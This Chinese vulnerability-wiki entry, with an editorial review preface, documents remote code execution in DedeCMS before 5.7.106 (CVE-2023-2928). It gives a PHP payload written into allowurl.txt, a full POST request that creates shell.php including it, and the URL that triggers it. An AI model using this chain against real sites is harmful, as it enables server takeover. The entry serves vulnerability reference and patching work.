



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;5.7.106 asserted; admin allowurl edit and file management permissions; writable webroot

- **凭据与会话边界（1）**：Title/overview omit admin prerequisite while both endpoints under dede; raw Cookie/token empty unexplained。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（2）**：First write-to-allowurl request not supplied; file-management writes include stub then visits shell。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（3）**：No primary CVE/advisory reference; secondary wiki only。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# DedeCMS 5.7 file_manage_control.php 文件包含 RCE CVE-2023-2928

## 漏洞描述

版本 5.7.106 之前的 DedeCMS 中存在漏洞，`/dede/article_allowurl_edit.php` 缺少对该文件中写入内容的过滤，结合 `/dede/file_manage_control.php` 文件构造文件包含代码，将构成远程代码执行。

## 漏洞影响

```
DedeCMS < 5.7.106
```

## 漏洞复现

文件 `/dede/article_allowurl_edit.php` 中未对文件内容做任何过滤，会把内容写入到

`/data/admin/allowurl.txt` 这个文件当中。

访问文件 `/dede/article_allowurl_edit.php`：

```
www.dedecms.com
www.desdev.cn
bbs.dedecms.com
<?php phpinfo();?>
```




通过`/dede/file_manage_control.php`文件构造文件包含代码：

```shell
# Payload
fmdo=edit&backurl=&token=&activepath=&filename=shell.php&str=<?php include_once("./data/admin/allowurl.txt");?>
```

```
POST /dede/file_manage_control.php HTTP/1.1
Host: <YOUR_IP>
Content-Length: 135
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://<YOUR_IP>
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://<YOUR_IP>/dede/article_allowurl_edit.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: 
Connection: close

fmdo=edit&backurl=&token=&activepath=&filename=shell.php&str=%3C%3Fphp+include_once%28%22.%2Fdata%2Fadmin%2Fallowurl.txt%22%29%3B%3F%3E
```




成功写入，访问：

```
http://<YOUR_IP>/shell.php
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
